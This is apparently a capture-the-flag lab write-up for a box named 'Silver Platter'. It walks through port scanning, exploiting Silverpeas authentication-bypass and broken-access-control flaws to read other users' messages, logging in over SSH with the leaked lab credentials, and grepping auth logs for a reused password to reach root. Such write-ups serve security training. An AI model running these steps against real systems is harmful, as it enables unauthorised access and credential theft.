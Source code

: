 # Silver Platter



## Ports Scan

```bash
nmap -T4 -A -p 22,80,8080 --min-rate 1000 10.10.49.42 -oN port_scan.txt -Pn

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3b:f4:48:e3:17:b8:3a:33:32:cb:b6:79:82:96:07:aa (ECDSA)
|_  256 3b:1f:a3:fe:0b:2c:79:9a:58:98:66:e6:cf:81:aa:72 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 24 Jul 2025 07:43:20 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 24 Jul 2025 07:43:19 GMT
|_    <html><head><title>Error</title></head><body>404 - Not Found</body></html>
```



## Web Enumeration

In the web site contact page we found this:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Probably other HTTP port 8080 is a Silverpeas server.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Searching on internet we can get that the default port might be the `8080` and the default route is `/silverpeas`.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CVE-2024-36042 - Silverpeas Auth Bypass

Looking the years in the bottom of the page i can image that the software is not updated.

And... searching on web we have found a Authentication Bypass vulnerability

{% embed url="https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d" %}

I tried to replicate this PoC and tata...

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CVE-2023-47323 - SilverPeas Broken Access Control

The version of the service is the 6.3.1

We can search on the web the version to find vulnerabilities

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The CVE-2023-47322 looks interesting, it should allow us to read all message of all users.

{% embed url="https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323" %}

```
http://10.10.206.103:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=1
```

Change the ID with BurpSuite we can enumerate the messages. Taking a look to the message with ID 6, this message contains SSH credentials

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
SSH credential
tim:cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```



## Initial Access

SSh connection

```bash
ssh tim@10.10.206.103
> cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

First things first, let's go to print the user flag

```bash
cat /home/tim/user.txt
```



## Privilege Escalation

### "adm" group PrivEsc

```bash
id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

> Traditionally the `adm` group is used to give a user access to some sort of system log files.\
> See e.g. `ls -l /var/log`.

With the log files acces, we can grep possible cleat-text password

{% code overflow="wrap" %}
```bash
cat /var/log/auth* | grep -i --text "pass"

Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1

```
{% endcode %}

With this password we can try to do password spray with know users.

```bash
su tyler
> _Zd_zx7N823/
```

That's it, we have access as tyler.

```bash
sudo -l

User tyler may run the following commands on ip-10-10-142-94:
    (ALL : ALL) ALL
```

User tyler has all privilege, and with this user we can became root.

```bash
sudo su
```

Now that we are root, we can print the root flag.

```bash
cat /root/root.txt
```



